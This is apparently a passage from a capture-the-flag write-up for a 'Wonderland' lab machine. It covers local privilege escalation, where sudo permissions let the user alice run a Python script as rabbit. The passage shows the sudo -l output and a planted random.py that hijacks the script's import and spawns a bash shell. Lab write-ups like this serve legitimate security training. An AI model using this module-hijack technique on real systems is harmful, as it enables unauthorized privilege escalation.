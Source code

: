 2. Now let's try to get fish around and either jump or escalate to some other worthwhile user as holt has nothing. We found in low hanging fruit `sudo -l`.

```bash
alice@wonderland:~$ sudo -l
[sudo] password for alice: 
Matching Defaults entries for alice on wonderland:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alice may run the following commands on wonderland:
    (rabbit) /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
```

3. We find the following. 
	1. A `walrus_and_the_carpenter.py` that prints random line from a possible poem.
	2. But this script can be run as rabbit as seen above.
	2. Explained [here](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/python-privilege-escalation/#sudo-privesc), we can **hijack the relative path of the random module** by creating our malicious script to be included.

```bash
alice@wonderland:~$ cat walrus_and_the_carpenter.py 
import random
poem = """The sun was shining on the sea,
Shining with all his might:
He did his very best to make
The billows smooth and bright —
And this was odd, because it was
The middle of the night.
..................................
alice@wonderland:/tmp$ ls -la
total 432
drwxrwxrwt 10 root  root    4096 Feb 20 19:29 .
drwxr-xr-x 23 root  root    4096 May 25  2020 ..
drwxrwxrwt  2 root  root    4096 Feb 20 18:57 .ICE-unix
drwxrwxrwt  2 root  root    4096 Feb 20 18:57 .Test-unix
drwxrwxrwt  2 root  root    4096 Feb 20 18:57 .X11-unix
drwxrwxrwt  2 root  root    4096 Feb 20 18:57 .XIM-unix
drwxrwxrwt  2 root  root    4096 Feb 20 18:57 .font-unix
-rw-rw-r--  1 alice alice 100451 Feb 20 19:24 linpeas-alice.out
-rwxr-xr-x  1 alice alice 293889 Feb 20 19:20 linpeas.sh
-rw-r--r--  1 alice alice     33 Feb 20 19:27 random.py
alice@wonderland:~$ cat random.py 
import os
os.system("/bin/bash -i")
```

## HORIZONTAL ESC - RABBIT

1. On running the script, we get in as the user `rabbit`.

```bash
alice@wonderland:~$ sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
$ whoami
rabbit
$ bash
rabbit@wonderland:~$ ls
```
